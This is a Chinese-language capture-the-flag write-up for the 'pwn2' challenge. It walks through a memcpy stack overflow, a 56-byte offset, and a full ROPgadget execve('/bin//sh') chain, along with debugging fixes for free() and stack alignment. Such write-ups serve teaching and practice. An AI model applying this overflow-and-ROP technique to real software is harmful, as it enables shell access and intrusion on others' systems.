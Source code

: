 ## pwn2 (pwn, 350p)

提供了以下文件：  
[pwn2](./pwn2)

---------------------------------------

### 0x1 分析程序
执行下程序，再用IDA分析下，发现有个`memcpy`溢出漏洞，如果一开始的输入的calculate次数过多，再选择`5 Save the result`将导致程序溢出。查看下需要多少个字节才能溢出，在IDA的伪代码中,可以看到`memcpy`是copy到`&v5`指向的地址里。

```
      case 5:
        memcpy(&v5, v7, 4 * v6);
        free(v7);
        return 0;
```

查看下`v5`在栈中的地址偏移情况：

```
-00000034 v5              dd ?
-00000030 var_30          dd ?
-0000002C var_2C          dd ?
-00000028 var_28          dd ?
-00000024 var_24          dd ?
-00000020 var_20          dd ?
-0000001C var_1C          dd ?
-00000018 var_18          dd ?
-00000014 var_14          dd ?
-00000010 var_10          dd ?
-0000000C v6              dd ?
-00000008 v7              dd ?
-00000004 v8              dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)			  ; return address
+00000008 argc            dd ?
+0000000C argv            dd ?                    ; offset
+00000010 envp            dd ?                    ; offset
+00000014
+00000014 ; end of stack variables
```
可以看到56（0x34+4）个字节后将溢出覆盖返回地址。

### 0x2 构造exp
发现程序里没有`system`或`execv`等函数, 但这个程序貌似是静态链接编译的,指令应该比较丰富,用ROPgadget尝试生成ropchain。

```
$ ROPgadget --binary pwn2 --ropchain
	#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0x0806ed0a) # pop edx ; ret
	p += pack('<I', 0x080ea060) # @ .data
	p += pack('<I', 0x080bb406) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x080a1dad) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806ed0a) # pop edx ; ret
	p += pack('<I', 0x080ea064) # @ .data + 4
	p += pack('<I', 0x080bb406) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x080a1dad) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0806ed0a) # pop edx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x08054730) # xor eax, eax ; ret
	p += pack('<I', 0x080a1dad) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080481c9) # pop ebx ; ret
	p += pack('<I', 0x080ea060) # @ .data
	p += pack('<I', 0x0806ed31) # pop ecx ; pop ebx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x080ea060) # padding without overwrite ebx
	p += pack('<I', 0x0806ed0a) # pop edx ; ret
	p += pack('<I', 0x080ea068) # @ .data + 8
	p += pack('<I', 0x08054730) # xor eax, eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x0807b75f) # inc eax ; ret
	p += pack('<I', 0x08049781) # int 0x80
```

good，有了ropchain，那就容易了。到这里我们构造出的payload大概如下：
```
payload = 'A'*56 + ropchain
```

但测试后发现不行，运行后报abort，也生成了core文件。用`gdb pwn2 core`查看出错原因，发现是`free`函数报错了。原来`memcpy`后就执行`free(v7)`, 而`v7`保存的是之前`malloc	`的地址。由于溢出也把`v7`的值也覆盖了，所以导致`free`报abort。这时队友esrever10说试试`free(0)`,果然是可以的，大赞^_^！  

`free`问题解决了，但又遇到新问题，在执行`mov dword ptr [edx], eax`时报错，报写入地址不正确，调试后发现`edx`这时的值为0，这不科学，明明上面给`edx`赋值了。找了好久也没找到原因，最后灵机一动，把给`edx`赋值的语句多copy一次。nice，终于搞定了。全部代码请看[exp.py](./exp.py)


### 0x3 后续
esrever10看了这题后发现之前写入地址不对应该是`and     esp, 0FFFFFFF0h`导致，
```
.text:08048E24 55                          push    ebp
.text:08048E25 89 E5                       mov     ebp, esp
.text:08048E27 83 E4 F0                    and     esp, 0FFFFFFF0h
.text:08048E2A 83 EC 50                    sub     esp, 50h
```
分析了下，确实是这样的，对齐esp可能导致esp偏移了4/8/12个字节，由于IDA也不知道运行中的esp的值，所以未能显示出这一情况。对于这种情况，最好的解决方案应该是插入三个指向ret指令的地址，相当于继续往下执行，忽略不稳定因素。
